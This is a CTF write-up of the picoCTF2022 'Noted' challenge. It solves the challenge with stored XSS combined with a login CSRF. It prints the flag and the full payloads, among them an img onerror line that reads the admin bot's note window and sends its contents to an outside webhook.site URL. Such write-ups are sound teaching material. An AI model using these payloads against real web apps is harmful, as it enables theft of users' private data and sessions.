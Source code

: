   # picoCTF2022: Noted

![Contest Date: 15.03.2022](https://img.shields.io/badge/Contest%20Date-15.03.2022-lightgrey.svg)
![Solve Moment: During The Contest](https://img.shields.io/badge/Solve%20Moment-During%20The%20Contest-brightgreen.svg)
![Score: 500](https://img.shields.io/badge/Score-500-brightgreen.svg)

## Description

> I made a nice web app that lets you take notes. I'm pretty sure I've followed all the best practices so its definitely secure right?
Note that the headless browser used for the "report" feature does not have access to the internet.




## Attached Files

- noted.tar.gz

## Flag

```
picoCTF{p00rth0s_parl1ment_0f_p3p3gas_386f0184}
```

## Detailed Solution

After looking at the source, it seems that this is a website that allows to create an account, login, and create notes. The notes seem to be private, and only visible to the logged in user, and are not accessible through some URL. Looking at some past challenges and writeups that dealed with Notes. After searching online for these type of past challenges, we can get some results such as [TBDXSS](https://ctftime.org/task/17592) and [XSS On Other Domain](https://www.youtube.com/watch?v=9ecv6ILXrZo). Now we need to first see if our website is vurlnerable to XSS, so we can put in a sample test payload in our notes such as
```js
  <script>alert(1)</script>
```
Putting this in Notes, <p align="center">![logo](https://github.com/Thinker28/picoCTF2022/blob/main/Web-Exploitation/Noted/Screen%20Shot%202022-04-06%20at%202.39.01%20PM.png)</p>

We get, <p align="center">![logo](https://github.com/Thinker28/picoCTF2022/blob/main/Web-Exploitation/Noted/Screen%20Shot%202022-04-06%20at%202.43.57%20PM.png)</p>

Now we have confirmed that our website is vurlnerable to XSS. Now scanning through the writeups, the latter video seems especially helpful, because we want to craft a payload to get the flag on another domain. So now let's try to reiterate on what we exactly want to do. We want some payload, which our bot will run to steal it's notes which will contain the flag. However, we need to make the bot run this directly. One ideal plan would be to create a temporary account, and put the XSS Payload that will print the contents of a window of the bot, which will have the flag. And then from the Report function we first open a window which we can later use to read the contents of the bots notes, and getthe flag. Then we can open a window which we can then login to the temporary account we created, and access the notes of the temporary account which will run our payload, and send the flag through a webhook. Now implementing this, we get

```html
data:text/html,
<form action="http://0.0.0.0:8080/login" method=POST id=WebsiteForm target=_blank>
<input type="text" name="username" value="test"><input type="text" name="password" value="test">
</form>
<script>window.open('http://0.0.0.0:8080/notes','window1'); setTimeout(`WebsiteForm.submit()`,1000); setTimeout(`window.location='http://0.0.0.0:8080/notes?flag'`,1500)</script>
```

Let's break down what this does. The first part inside <form> just logs us in with the account test:test. Then the second part inside our <script> first opens up a window with the admins notes, and name it "window1". Then we submit our form, and login in as test:test. 
We will use this in our report function.

```html
<img src=x onerror="if(window.location.search.includes('flag'))window.location='https://webhook.site/bc465fa8-238e-4b8b-b771-4fa454413bf5/'+window.open('', 'window1').document.body.textContent">
```

We will put this in the notes of our temporary account.

Now trying this out we get this in our webhook, <p align="center">![logo](https://github.com/Thinker28/picoCTF2022/blob/main/Web-Exploitation/Noted/Screen%20Shot%202022-04-04%20at%207.43.03%20PM.png)</p>

Now URL Decoding this we get our flag :D, <p align="center">![logo](https://github.com/Thinker28/picoCTF2022/blob/main/Web-Exploitation/Noted/Screen%20Shot%202022-04-04%20at%207.45.11%20PM.png)</p>
